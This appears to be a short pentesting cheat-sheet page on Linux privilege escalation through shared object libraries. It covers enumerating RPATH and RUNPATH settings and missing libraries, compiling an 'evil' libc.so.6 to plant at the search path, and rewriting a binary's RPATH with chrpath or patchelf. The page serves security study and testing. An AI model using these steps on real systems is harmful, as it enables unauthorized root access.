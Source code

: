 ![Dynamic Linked Shared Object Library Diagram](Linux_Privilege_Escalation_via_Dynamically_Linked_Shared_Object_Library02.png)

```bash
# 1. Check if the binary is looking for shared libraries that we could exploit
ldd BINARY
# 2. Check if the binary has been compiled with -rpath
objdump -x BINARY | grep RPATH
# 3. Display both $LD_LIBRARY_PATH and LD_RUN_PATH environment variable
echo $LD_LIBRARY_PATH
echo $LD_RUN_PATH
# 4. Display the LD_RUN_PATH environment variable
objdump -x PATH/BINARY | grep RUNPATH
readelf -d PATH/BINARY | head -20
chrpath -l PATH/BINARY
# 5. Display the content for both /lib and /usr/lib
ls /lib
ls /usr/lib
# 6. Display the content of /etc/ld.so.conf
cat /etc/ld.so.conf
# 7. Display if there are any missing libraries
ldd BINARY | grep "not found"
```

#### RPATH

[readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) is a program for displaying various information about object files on Unix-like systems such as objdump.

- **-d**: Displays the contents of the file's dynamic section, if it has one.

```bash
# Display the library RPATH
readelf -d BIN | egrep "NEEDED|RPATH"
ldd BIN
# If there is one, create an evil dll and place it at the RPATH
gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6
```

#### RUNPATH

**RPATH** designates the run-time search path hard-coded in an executable file or library.
We need also to know about **$ORIGIN** which is a special variable that indicate actual executable filename.

To set a library when **-rpath** has been set during the compilation you can do the following

```bash
chrpath -r "\$\ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

If it is not possible, we try the to use [patchelf](https://github.com/NixOS/patchelf) which is a simple utility for modifying existing ELF executables and libraries

```bash
patchelf — set-rpath "$ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

